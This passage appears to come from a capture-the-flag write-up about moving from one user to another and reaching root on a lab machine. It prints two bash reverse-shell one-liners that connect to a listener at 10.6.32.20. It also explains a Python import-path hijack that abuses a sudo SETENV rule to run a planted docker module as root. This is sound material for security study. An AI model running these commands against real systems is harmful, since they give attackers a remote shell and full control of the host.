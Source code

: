 Now let's get another reverse shell. We replace the code in pyteserract to
```
os.system("bash -c 'bash -i >& /dev/tcp/10.6.32.20/5555 0>&1' ")
```

Now that we are logged in as oliver, we run `sudo -l` and apparently it doesn't need a password
```
(root) SETENV: NOPASSWD: /usr/bin/python /opt/dockerScript.py
```

Apparently, `SETENV` preserve the environment variables so I guess we will use them to exploit the `dockerScript.py`

Here is the content of the file :
```
import docker

# oliver, make sure to restart docker if it crashes or anything happened.
# i havent setup swap memory for it
# it is still in development, please dont let it live yet!!!
client = docker.from_env()
client.containers.run("python-django:latest", "sleep infinity", detach=True)
```

Soo, maybe we can find a way to get a specially crafter client with env variables
OR
We can try to inject stuff in the docker package.

We don't have access to `docker` package from the `oliver` user but we can set our `PYTHONPATH` variable to point to a `docker` folder with an `__init__.py` file

Hmmmm, for some reason, the docker package is not found when I run it with `sudo` but it work if I `import docker` in a local python interpreter (as `oliver`).

Hmmm, let's check in available python paths if we can inject something :
```
['', '/home/oliver', '/usr/lib/python2.7', '/usr/lib/python2.7/plat-x86_64-linux-gnu', '/usr/lib/python2.7/lib-tk', '/usr/lib/python2.7/lib-old', '/usr/lib/python2.7/lib-dynload', '/home/ramsey/.local/lib/python2.7/site-packages', '/usr/local/lib/python2.7/dist-packages', '/usr/lib/python2.7/dist-packages']
```

Sooo, it's simpler than I thought. Since `/home/ramsey/.local/lib/python2.7/site-packages` is already in the path and the `docker` package is absent from the paths, no need to try to inject another pythonpath.

We can inject our `docker/__init__.py` in `/home/ramsey/.local/lib/python2.7/site-packages`.

Running `sudo /usr/bin/python /opt/dockerScript.py` as `Oliver` we get
```
uid=0(root) gid=0(root) groups=0(root)
```

Now we just need to inject another revshell:
```
os.system("bash -c 'bash -i >& /dev/tcp/10.6.32.20/4444 0>&1' ")
```

And we got root.
